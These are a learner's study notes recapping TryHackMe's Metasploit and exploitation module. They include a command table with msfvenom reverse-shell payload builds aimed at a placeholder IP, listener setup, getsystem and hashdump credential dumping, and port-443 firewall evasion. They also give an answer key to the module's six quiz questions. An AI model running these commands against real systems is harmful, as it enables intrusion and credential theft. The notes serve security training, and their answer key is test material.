

# Module 12 Synthesis & Documentation: Topic Transition Recap

---

## 1. Metadata & Overview

* **Learning Path:** Jr Penetration Tester
* **Module:** Module 12 — Metasploit and Exploitation (`12-METASPLOIT-AND-EXPLOITATION`)
* **Room / Assessment Name:** Topic Transition Recap
* **Recap ID:** `6afe01d5f306fc3f6592803f`
* **Canonical URL:** [TryHackMe Module 12 Recap](https://tryhackme.com/recap/6afe01d5f306fc3f6592803f)
* **Assessment Category:** Module Capstone Synthesis & Knowledge Verification
* **Status:** 100% Completed & Verified (6/6 Questions Solved)
* **Score Awarded:** 48 / 48 Total Points (8 Points Per Question)

---

## 2. Module 12 Executive Summary

**Module 12: Metasploit and Exploitation** serves as the primary offensive engine of the Jr Penetration Tester curriculum, transitioning practitioners from vulnerability reconnaissance and web application theory into practical exploitation, remote code execution, session orchestration, and in-memory post-exploitation.

Across the eight rooms comprising Module 12, a comprehensive offensive capability was documented and validated:
1. **Metasploit: The Basics:** Internal framework architecture (Exploits, Payloads, Auxiliary, Post, Encoders, NOPs), global and local variable scoping (`set` vs `setg`), Single vs. Staged payloads, and multi-session management.
2. **Scanning and Exploitation:** PostgreSQL database integration via `db_nmap`, target isolation using `workspaces`, safe MS17-010 EternalBlue verification and exploitation to `NT AUTHORITY\SYSTEM`, and vsftpd 2.3.4 backdoor exploitation to `root`.
3. **Post-Exploitation:** Stephen Fewer's Reflective DLL Injection (RDI) in-memory execution, automatic elevation via Named Pipe Impersonation (`getsystem` Technique 1), SAM database extraction (`hashdump`), LSASS parsing via Kiwi / Mimikatz, and IIS web server secret recovery.
4. **Payload Generation:** Standalone binary compilation with `msfvenom`, bad character elimination (`-b`), template injection (`-x` / `-k`), egress firewall evasion via port 443, and the critical distinction between staged (`/`) and stageless (`_`) binaries.
5. **Exploitation and Weaponisation:** Security consulting methodology, minimal proof-of-concept execution (`whoami`, `SELECT SYSTEM_USER`, `getuid`), vulnerability chaining (source leaks + IDOR), and identifying the professional stopping point.
6. **Shells & Listeners Fundamentals:** Reverse vs. bind shell network flow, Linux POSIX terminal mechanics (`termios`, `/dev/ptmx`, `/dev/pts/X`), PTY stabilization routines (`python3 pty.spawn` + `stty raw -echo` + `fg`), and encrypted OpenSSL Socat listeners.
7. **Shell Payload Generation & Delivery:** Living off the land techniques (Netcat named pipes, PowerShell `System.Net.Sockets.TCPClient`, Bash `/dev/tcp`), PHP webshell design, access log evasion via POST requests, and administrative persistence for RDP access.
8. **Topic Transition Recap:** Comprehensive assessment passing with 100% accuracy (48/48 points).

---

## 3. Master Exploitation & Session Lifecycle Architecture



---

## 4. Prerequisites & Environment Setup

* **Primary Operating System:** Kali Linux 2024+ (fully updated).
* **Core Frameworks & Binaries:** Metasploit Framework v6+, `msfvenom`, `netcat`, `socat`, `openssl`, `rlwrap`, PostgreSQL service.

```bash
# Verify Metasploit PostgreSQL database connectivity
sudo msfdb status

# Launch Metasploit framework
msfconsole -q
```

---

## 5. Core Concepts & Technical Deep Dive

### A. Binary Architecture: Staged (`/`) vs. Stageless (`_`)
* **Stageless Payloads (Inline):** Compile the complete agent logic directly into a single self-contained binary (~250 KB). All network and execution components are present on initial execution, requiring no secondary downloads. This makes them significantly more reliable for standalone exploitation.
* **Staged Payloads:** Deliver an initial tiny stager (~7 KB) whose sole function is to connect back to the listener and pull down the primary stage (~1 MB DLL) into target memory over the network. They are susceptible to deep packet inspection (DPI) interruptions.

### B. The Myth of Encoding for Evasion vs. Bad Character Elimination (`-b`)
* Encoders such as `x86/shikata_ga_nai` do not bypass modern EDR or AV engines; static decoder stubs, sandbox instruction emulation, AMSI buffer scanning, and RWX memory allocation hooks easily flag encoded binaries.
* Their true operational value lies in eliminating bad characters (`-b '\x00\x0a\x0d'`) that serve as string terminators in memory corruption exploits.

### C. Protocol Tunneling & Firewall Evasion (`reverse_https`)
* Corporate firewalls inspecting egress traffic terminate raw TCP sockets connecting over port 443 if they lack legitimate TLS handshakes.
* The `reverse_https` payload encapsulates all command-and-control frames inside valid TLS records, indistinguishable from legitimate secure web traffic.

---

## 6. Master Commands Reference Guide

| Tool / Vector | Operational Command | Technical Purpose |
| :--- | :--- | :--- |
| **MSF DB Nmap** | `db_nmap -sV -sC -O <IP>` | Performs Nmap scan and ingests services directly into PostgreSQL database |
| **MSF Workspace** | `workspace -a stratford` | Creates isolated workspace for target engagement |
| **MSF Host Injection** | `hosts -R` | Automatically populates discovered target IPs into `RHOSTS` |
| **msfvenom Linux** | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f elf -o s.elf` | Generates 64-bit Linux stageless ELF binary |
| **msfvenom Windows** | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=443 -f exe -o s.exe` | Generates 64-bit Windows stageless executable over port 443 |
| **msfvenom Bad Chars** | `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 -b '\x00\x0a\x0d' -f raw` | Eliminates restricted characters via automated encoder selection |
| **MSF Multi/Handler** | `use multi/handler`<br>`set PAYLOAD <payload>`<br>`set LHOST <IP>`<br>`exploit -j` | Launches asynchronous background listener |
| **Meterpreter Elevation**| `getsystem` | Automates privilege escalation to `SYSTEM` via Named Pipe Impersonation |
| **Meterpreter Hashes** | `hashdump` | Extracts local NTLM password hashes from the SAM database |
| **Meterpreter Host Info**| `sysinfo` | Interrogates target architecture, OS build, and machine name |
| **Linux TTY Spawn** | `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Allocates pseudo-terminal slave device via `forkpty()` |
| **Terminal Raw Mode** | `stty raw -echo` then `fg` | Configures local terminal in raw mode, passing signals to remote PTY |
| **Socat Encrypted** | `socat OPENSSL-LISTEN:443,cert=s.pem,verify=0 -` | Hosts TLS encrypted listener with peer verification disabled |

---

## 7. Topic Transition Assessment Questions & Solutions Analysis

All 6 assessment questions for Module 12 were answered with 100% accuracy, earning 48 / 48 points:

| Question # | Focus Area | Verified Answer | Pedagogical Explanation |
| :---: | :--- | :---: | :--- |
| **Q1** | Payload Footprint Comparison | `True` | Stageless payloads contain all shell code in a single file, making them larger (~250KB) than small stagers (~7KB). |
| **Q2** | msfvenom Output Format Flag | `-f` | Specifies the output format (`exe`, `elf`, `dll`, `raw`, `c`). |
| **Q3** | Egress-Restricted Connection Type | `reverse_https` | Tunnels the connection inside TLS over port 443 to blend with legitimate HTTPS web traffic. |
| **Q4** | Bad Character Filtering Flag | `-b` | Takes restricted hex byte values (`\x00\x0a\x0d`) and prompts msfvenom to pick a suitable encoder to eliminate them. |
| **Q5** | Reverse Payload Addressing | `True` | In reverse payloads, `LHOST` represents the attacker's IP address that the target connects back to. |
| **Q6** | Background Handler Execution Flag | `-j` | Runs the handler as a background job, freeing the Metasploit console for ongoing operations. |

---

## 8. Complete Module 12 Rooms & Curriculum Inventory

| Room # | Canonical Room Title | Slug / Identifier | Tasks | Questions | Completion Status |
| :---: | :--- | :--- | :---: | :---: | :---: |
| 01 | Metasploit: The Basics | `metasploitthebasics` | 6 | 17 | 100% Completed & QA Audited |
| 02 | Metasploit: Scanning and Exploitation | `metasploitscanningandexploitation` | 7 | 15 | 100% Completed & QA Audited |
| 03 | Metasploit: Post-Exploitation | `metasploitpostexploitation` | 6 | 15 | 100% Completed & QA Audited |
| 04 | Metasploit: Payload Generation | `metasploitpayloadgeneration` | 8 | 15 | 100% Completed & QA Audited |
| 05 | Exploitation and Weaponisation | `exploitationandweaponisation` | 8 | 15 | 100% Completed & QA Audited |
| 06 | Shells & Listeners Fundamentals | `shellsfundamentals` | 9 | 17 | 100% Completed & QA Audited |
| 07 | Shell Payload Generation & Delivery | `shellgenerationdelivery` | 8 | 17 | 100% Completed & QA Audited |
| 08 | Topic Transition Recap | `6afe01d5f306fc3f6592803f` | 6 questions | 6 | 100% Completed (48/48 Points) |
| **Total** | **8 Rooms / Assessments** | **Complete Module 12** | **58 Tasks** | **117 Questions** | **100% Complete & Synchronized** |

---

## 9. Defense, Detection & Blue Team Countermeasures

1. **In-Memory EDR & Reflective DLL Inspection:**
   - Deploy modern endpoint detection agents capable of continuous memory scanning to identify unmapped memory regions exhibiting execute (`PAGE_EXECUTE_READWRITE`) permissions characteristic of Reflective DLL Injection.
   - Enforce **Windows Defender Credential Guard** to isolate LSASS inside a hardware-isolated Virtualization-Based Security (VBS) container, neutralizing memory scraping via Mimikatz / Kiwi.
2. **Network Egress Inspection & Traffic Analytics:**
   - Implement TLS decryption and certificate validation on corporate egress gateways to intercept unauthorized self-signed certificates operating on port 443.
   - Restrict web server upload directories by stripping script execution permissions (`noexec`) and disabling dangerous execution functions in `php.ini`.

---

## 10. Master MITRE ATT&CK Mapping for Module 12

| Tactic | Technique ID | Technique Name | Operational Execution in Module |
| :--- | :--- | :--- | :--- |
| **Initial Access** | T1190 | Exploit Public-Facing Application | MS17-010 and vsftpd 2.3.4 exploitation |
| **Execution** | T1059 | Command and Scripting Interpreter | Bash, PowerShell, and webshell command execution |
| **Defense Evasion** | T1055 | Process Injection: Reflective DLL Injection | In-memory Meterpreter payload execution |
| **Privilege Escalation**| T1134 | Access Token Manipulation: Named Pipe Impersonation| Automated elevation via `getsystem` |
| **Credential Access** | T1003.002| OS Credential Dumping: SAM Database | Extracting NTLM password hashes via `hashdump` |
| **Discovery** | T1082 | System Information Discovery | Host interrogation via `sysinfo` and `whoami` |
| **Command and Control**| T1071.001| Application Layer Protocol: Web Protocols | Egress evasion via HTTP/HTTPS ports 80/443 |
| **Persistence** | T1136.001| Create Account: Local Account | Provisioning local administrators for RDP access |

---

## 11. Common Pitfalls & Master Troubleshooting

* **Issue: Meterpreter listener hangs without session creation.**
  * *Root Cause:* Payload architecture mismatch between `msfvenom` and `multi/handler` (e.g. staged payload paired with stageless handler).
  * *Remedy:* Match payload path, architecture, and port settings identically.
* **Issue: Netcat listener drops upon pressing `Ctrl+C`.**
  * *Root Cause:* Raw unstabilized shell; local terminal driver handles `SIGINT` and terminates local process.
  * *Remedy:* Execute Python PTY spawn routine, background with `Ctrl+Z`, execute `stty raw -echo`, and foreground with `fg`.
* **Issue: Outbound reverse shell dropped by firewall.**
  * *Root Cause:* Corporate egress firewall blocking non-standard ports (such as 4444).
  * *Remedy:* Route payload over port 443 using `reverse_https`.

---

## 12. Master Technical Comparisons

| Operational Dimension | Raw Command Shells (Netcat / Bash) | Meterpreter In-Memory Payloads |
| :--- | :--- | :--- |
| **Execution Architecture** | Spawns disk-resident system binaries (`/bin/sh`) | Executes entirely in memory via Reflective DLL Injection |
| **Extensibility** | Constrained by local binaries present on host | Dynamically extensible at runtime (`kiwi`, `priv`, `sniffer`) |
| **Communication Protocol** | Plaintext or basic socket stream | Strongly typed encrypted TLV binary frames |
| **Resource Footprint** | Extremely lightweight (~500 bytes) | Moderate footprint (~250 KB stageless, ~1 MB DLL stage) |

---

## 13. Best Practices & Rules of Engagement

1. **Pre-Exploitation Safety Verification:** Always verify vulnerability presence using auxiliary check modules (`auxiliary/scanner/`) before launching kernel exploits to avoid target system crashes.
2. **Decontamination Protocol:** Delete all uploaded web shells, staged executables, and provisioned user accounts immediately upon assessment conclusion.
3. **Strict Adherence to Stopping Points:** Cease active exploitation the instant administrative or database engine privilege is verified, avoiding data exfiltration that violates legal authorization.

---

## 14. Transition to Module 13 & Official References

With Module 12 100% complete across all 8 rooms, 58 tasks, and 117 questions, the learning path advances directly to **Module 13: Privilege Escalation** (`13-PRIVILEGE-ESCALATION`). Module 13 covers deep technical post-compromise privilege escalation across Linux and Windows operating systems, including SUID binaries, kernel exploits, sudo permissions, unquoted service paths, token impersonation, and automated auditing scripts (LinPEAS / WinPEAS).

### References & Links:
* [TryHackMe Module 12 Topic Transition Recap](https://tryhackme.com/recap/6afe01d5f306fc3f6592803f)
* [Rapid7 Metasploit Official Documentation](https://docs.metasploit.com/)
* [Penetration Testing Execution Standard (PTES)](http://www.pentest-standard.org/)
* [MITRE ATT&CK Matrix for Enterprise](https://attack.mitre.org/)
* [Recap Questions Analysis (RECAP-QUESTIONS.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/08-TOPIC-TRANSITION-RECAP/RECAP-QUESTIONS.md)
* [Module 12 Overview (MODULE-OVERVIEW.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/MODULE-OVERVIEW.md)
